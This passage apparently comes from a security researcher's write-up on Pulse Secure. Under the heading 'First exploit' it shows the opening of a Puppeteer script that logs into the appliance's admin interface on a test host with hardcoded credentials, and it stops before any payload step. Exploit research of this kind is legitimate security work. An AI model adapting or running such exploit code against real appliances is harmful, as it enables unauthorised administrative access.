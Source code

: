 <img class="img_full" src="png-21.png" alt="png-21">


### First exploit

```javascript
/*
    Author: @TheLaluka
    npm i puppeteer
    node 01-sploit-admin.js
*/

const puppeteer = require("puppeteer");
const base_url = "https://my.pulse";
(async() => {

    const delay = ms => new Promise(resolve => setTimeout(resolve, ms))

    // Setup browser
    console.log("[+] Setup browser")
    const browser = await puppeteer.launch({
        headless: false,
        ignoreHTTPSErrors: true,
        defaultViewport: null,
        // args: ['--proxy-server=127.0.0.1:8080']
    })
    const page = (await browser.pages())[0]

    // Login admin
    console.log("[+] Login admin")
    await page.goto(base_url + "/dana-na/auth/url_admin/welcome.cgi")
    await page.waitForSelector('#username');
    await page.type("#username", "admin")
    await page.type("#password", "choubidouce")
    await page.click("#btnSubmit_6")

    try {
        await page.waitForSelector("[name='btnContinue']", {
            timeout: 1000 // Continue if previous session established
        })
```